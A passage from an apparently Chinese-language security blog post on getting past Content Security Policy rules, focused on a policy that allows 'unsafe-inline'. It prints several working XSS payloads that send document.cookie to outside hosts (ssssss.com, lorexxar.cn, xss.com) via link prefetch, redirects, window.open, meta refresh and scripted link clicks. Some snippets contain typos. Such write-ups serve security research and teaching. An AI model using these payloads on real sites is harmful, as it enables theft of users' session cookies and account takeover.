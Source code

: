 这样你就可以构造任意js，即使你限制了callback只获取`\w+`的数据，部分js仍然可以执行，配合一些特殊的攻击手段和场景，仍然有危害发生。

唯一的办法是返回类型设置为json格式。

## 7

```
header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' ");
```

比起刚才的CSP规则来说，这才是最最普通的CSP规则。

unsafe-inline是处理内联脚本的策略，当CSP中制定script-src允许内联脚本的时候，页面中直接添加的脚本就可以被执行了。

```
<script>
js code; //在unsafe-inline时可以执行
</script>
```

既然我们可以任意执行js了，剩下的问题就是怎么绕过对可信域的限制。

### 1 js生成link prefetch

第一种办法是通过js来生成link prefetch
```
var n0t = document.createElement("link");
n0t.setAttribute("rel", "prefetch");
n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
document.head.appendChild(n0t);
```

这种办法只有chrome可以用，但是意外的好用。

### 2 跳转 跳转 跳转

在浏览器的机制上， 跳转本身就是跨域行为

```
<script>location.href=http://lorexxar.cn?a+document.cookie</script>

<script>windows.open(http://lorexxar.cn?a=+document.cooke)</script>

<meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
```

通过跨域请求，我们可以把我们想要的各种信息传出

### 3 跨域请求

在浏览器中，有很多种请求本身就是跨域请求，其中标志就是href。

```
var a=document.createElement("a");
a.href='http://xss.com/?cookie='+escape(document.cookie);
a.click();
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xht98xm2jwyjckb5bfdjm5xq/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/xo1yr98en6xbcsxhdi3598mz/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/qeh93twveyzmu5ke9nvkftj6/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dqprvm9xhl2e0zl1w4ssjjai/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2btf59qi5yvbhrgo80zda064/image.png